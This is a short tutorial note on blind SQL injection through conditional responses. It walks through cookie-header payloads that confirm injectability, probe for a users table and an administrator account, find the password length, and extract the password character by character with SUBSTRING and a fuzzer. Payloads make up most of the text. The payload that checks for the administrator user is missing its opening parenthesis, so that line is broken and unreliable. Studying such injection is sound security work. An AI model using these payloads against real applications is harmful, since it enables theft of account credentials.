 ```yaml
---
title: Conditional Responses
date: 2025-10-13
description: Notes of blind SQL injection with conditional responses.
weight: 1
---
```


## Principles

A type of blind SQL injection is triggering conditional responses.

For example, there is a request to an application including a cookie header like:

```text
Cookie: TrackingId=xxx
```

And the backend query may be:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xxx'
```

Suppose that the frontend will display a message `Welcome back` if the query is valid. Otherwise, it won't display.

This is possible to be injected blindly.

If there is a table named `users` that stores information of users, and our goal is to gain `administrator` information, we can use the following payload to find out the injection vulnerability:

```text
Cookie: TrackingId=xxx' AND '1'='1
Cookie: TrackingId=xxx' AND '1'='2
```

If the frontend changed, then it is injectable.

Then we can use `SELECT` to determine whether the table `users` exists.

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users LIMIT 1)='a
```

If the message `Welcome back` is displayed, it can be confirmed that `users` table exists.

To determine whether the user `administrator` exists, we can simply modify the payload above to:

```text
Cookie: TrackingId=xxx' AND SELECT 'a' FROM users WHERE username='administrator')='a
```

After that, we can find out the length of password by using the following payload:

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>$guess-length$)='a
```

The `$guess-length$` is a series of numbers to determine the length of password.

Then, we can retrieve the password by using the `SUBSTRING` function. The payload is:

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```

By changing `a` to any other characters until the message `Welcome back` shown, we can finally get the first character of the password.

In [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) or [Burp Suite](https://portswigger.net), modify the request to

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,$index$,1) FROM users WHERE username = 'administrator') = '$guess-char$
```

Then use the fuzz tool and we can retrieve the password.
